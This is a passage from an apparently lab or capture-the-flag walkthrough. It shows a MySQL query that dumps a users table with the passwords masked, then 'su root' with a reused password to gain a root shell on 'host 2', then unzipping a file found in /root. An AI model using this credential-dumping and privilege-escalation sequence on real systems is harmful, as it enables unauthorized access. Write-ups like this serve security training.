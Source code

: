 ```bash
mysql> select * from users;
+-------+---------------------+
| login | password            |
+-------+---------------------+
| root  | ****************    |
| mike  | ------------------- |
+-------+---------------------+
2 rows in set (0.00 sec)

mysql> exit
exit
Bye
mike@host2:~$
```

<h2 align="center">Lateral Movement<br>Shell as root in host 2</h2>

```bash
mike@host2:~$ su root
su root
Password: ****************

root@host2:/home/mike#
```

<img width="973" height="444" alt="image" src="https://github.com/user-attachments/assets/09e86d64-ff6d-42fe-85d2-52497ede8d1e" />

<br>
<br>

```bash
root@host2:/home/mike# cd /root
cd /root
```

```bash
root@host2:~# ls -a
ls -a
.  ..  .bash_history  .bashrc  .local  .profile  .ssh  mike.zip
```

```bash
root@host2:~# unzip mike.zip
unzip mike.zip
Archive:  mike.zip
[mike.zip] mike password: -------------------

 extracting: mike
```

```bash                   
root@host2:~# ls -a
ls -a
.  ..  .bash_history  .bashrc  .local  .profile  .ssh  mike  mike.zip
```
